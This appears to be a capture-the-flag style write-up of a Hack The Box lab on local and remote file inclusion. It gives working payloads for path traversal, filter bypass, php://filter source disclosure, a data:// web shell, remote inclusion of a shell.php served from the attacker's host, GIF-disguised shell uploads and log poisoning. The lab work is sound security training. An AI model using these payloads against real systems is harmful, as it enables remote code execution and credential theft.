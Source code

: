 <h1><ins>Local File Inclusion (LFI)</ins></h1>
<h2>Task: Using the file inclusion find the name of a user on the system that starts with "b".</h2>
To exploit LFI, we use directory traversal techniques to access sensitive files. By injecting ../ into the file path, we can navigate out of the intended directory and access system files, such as /etc/passwd. The /etc/passwd file is a standard Linux file that contains information about system users. Each line in the file corresponds to a user, and their usernames are the first field on each line.<br></br>

![Screenshot 2024-11-15 211516](https://github.com/user-attachments/assets/d8bed4c5-9929-4d5b-bb24-0974766b87bd)

<br></br>Since Text output is to long we can view page source to see full text which gives us user on the system that starts with "b".<br></br>

![Screenshot 2024-11-15 211552](https://github.com/user-attachments/assets/a3ac51a4-57a0-4a98-8266-73a97d51e4b7)

<h2>Task: Submit the contents of the flag.txt file located in the /usr/share/flags directory.</h2>

Using same method and changing directory with file name get our flag.

![Screenshot 2024-11-15 211948](https://github.com/user-attachments/assets/36fd1584-3202-41c5-99b3-fa6c83676c7d)

<br></br>

<h1><ins>Basic Bypasses</ins></h1>
<h2>Task: The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt</h2> 
Using previous method of ../ we are presented with "Illegal path specified!", to bypass filters we combine ....// method and approved path by application.

![Screenshot 2024-11-15 221940](https://github.com/user-attachments/assets/4122b301-73aa-4bac-b6b0-72bb8ffe77a2)

<br></br>

<h1><ins>PHP Filters(LFI)</ins></h1>
<h2>Task: Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer</h2>
Using ffuf we can find php files that web application uses in some cases we might need to have a larger directory file, but for this module small directory file is enough. <code>ffuf -w Desktop/directory-list-2.3-small.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ.php</code> , after running command we can see that it found two .php files index and configure.

Once we have a list of potential PHP files we want to read, we can start disclosing their sources with the base64 PHP filter. We can try to read source code of config.php using the base64 filter, by specifying convert.base64-encode for the read parameter and config for the resource parameter, using this code <code>php://filter/read=convert.base64-encode/resource=</code> our final URL looks like this: <code>http://SERVER_IP:PORT/index.php?language=php://filter/read=convert.base64-encode/resource=configure</code>
To copy full encoded text we can use View Page Source

![Screenshot 2024-11-16 185901](https://github.com/user-attachments/assets/e03e9000-db00-4771-bfaa-f8f683c3e621)

Using <code> echo "encoded text" | base64 -d</code> we can decode text and find flag.

![Screenshot 2024-11-16 190353](https://github.com/user-attachments/assets/f15de0a4-40f5-49fe-9631-0d25be69e09e)

<h1><ins>PHP Wrappers</ins></h1>
<h2>Task: Try to gain RCE using one of the PHP wrappers and read the flag at /</h2>

After going throught HTB Writeup we can see that <code>http://SERVER_IP:PORT/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id</code> show UID's we can use last part <code>cmd=id</code> to pass commands which in this case we can change to <code>cmd=ls /</code> to find our flag file which is <code>37809e2f8952f06139011994726d9ef1.txt</code> knowing this we can change our last part of the code to get flag <code>cmd=cat /37809e2f8952f06139011994726d9ef1.txt</code>


![1](https://github.com/user-attachments/assets/6e1c7ccf-33f8-4393-99c6-6d40eca727f5)

<h1><ins>Remote File Inclusion (RFI)</ins></h1>
<h2>Task: Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in/</h2>
Flowoing HTB Writeup first we create a basic php shell <code> echo '<code><</code>?php system($_GET["cmd"]); ?>' > shell.php </code> then we start a python server <code>sudo python3 -m http.server LISTENING_PORT </code> back in the web page we can use this url <code>http://SERVER_IP:PORT/index.php?language=http://OUR_IP:LISTENING_PORT/shell.php&cmd=id</code> to pass commands. After going trough directories we can easelly find our flag.

![Screenshot 2024-11-18 220254](https://github.com/user-attachments/assets/1ad366a8-e11a-488e-a876-c72f48485d4a)

<h1><ins>LFI and File Uploads</ins></h1>
<h2>Task: Use any of the techniques covered in this section to gain RCE and read the flag at /</h2>
Using image upload first we create web shell file that we will use to upload as image <code>echo 'GIF8<code><</code>?php system($_GET["cmd"]); ?>' > shell.gif</code> after successful upload we can use this URL <code>http://SERVER_IP:PORT/index.php?language=./profile_images/shell.gif&cmd=id</code> to start using comands to find our flag
  
![Screensh5ot 2024-11-18 220254](https://github.com/user-attachments/assets/5f7aeeb2-4375-433c-a5a5-5323f52eee8b)

<h1><ins>Log Poisoning</ins></h1>
<h2>Task: Use any of the techniques covered in this section to gain RCE, then submit the output of the following command: pwd/</h2>
using burpsuite we send intercept address <code>http://SERVER_IP:PORT/index.php?language=/var/log/apache2/access.log</code> and by changing user-agent to <code><code><</code>?php system($_GET['cmd']); ?></code> we can inject commands, we also need to change end of url by adding in this case <code>&cmd=pwd</code>
  
![Screenshot 2024-12-01 202623](https://github.com/user-attachments/assets/c0ea16db-a9f4-4c97-9c78-8f36ced111f6)
